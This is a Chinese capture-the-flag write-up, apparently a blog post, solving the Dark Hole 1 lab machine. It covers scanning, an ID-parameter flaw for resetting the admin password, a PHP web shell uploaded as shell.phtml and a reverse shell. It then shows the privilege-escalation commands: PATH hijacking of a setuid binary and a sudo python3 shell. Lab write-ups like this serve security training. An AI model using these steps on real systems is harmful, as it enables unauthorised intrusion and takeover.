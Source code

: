 ```yaml
---
layout: post
title: Dark Hole 1
subtitle: Dark Hole 1
date: 2025-07-14 16:49
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机扫描，发现ip `192.168.163.134`

![image.png](https://img.ghostliner.top/jfD8gH.png)

端口扫描，发现80和22端口

![image.png](https://img.ghostliner.top/rlHix8.png)

扫描目录

```shell
dirb http://192.168.163.134
nikto -h 192.168.163.134
```

发现目录：

```
http://192.168.163.134/config/
http://192.168.163.134/upload/
http://192.168.163.134/login.php
```

对站点进行指纹识别，无发现，bp爆破用户名密码失败

尝试注册成功

登陆成功后地址为: <http://192.168.163.134/dashboard.php?id=2>

遍历页面id无效，只有一个页面，可以更改用户名、邮件和密码，sqlmap测试密码时发现隐藏字段id参数，bp遍历id尝试更改其他用户密码。

admin登录成功，可以上传文件

上传一句话木马，经测试可以上传 `shell.phtml`

蚁剑连接，反弹shell

![image.png](https://img.ghostliner.top/GvKSmS.png)

反弹成功，查看数据库未发现有效信息

![image.png](https://img.ghostliner.top/7dwDHN.png)

查看john家目录，发现特殊权限的 `toto`

![image.png](https://img.ghostliner.top/fyi8kc.png)

toto疑似使用 `id`命令，更改环境变量修改为我们自定义的 `id`命令

```shell
echo '/bin/bash' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
./toto
```

提权成功，获取到密码

![image.png](https://img.ghostliner.top/Wva3ra.png)

获取到flag

![image.png](https://img.ghostliner.top/MtRwdk.png)

root提权

![image.png](https://img.ghostliner.top/D6WblV.png)

```shell
echo 'import os;os.system("/bin/bash")' > file.py
sudo /usr/bin/python3 /home/john/file.py
```

root提权成功，查看最终flag

![image.png](https://img.ghostliner.top/Ifoh5M.png)
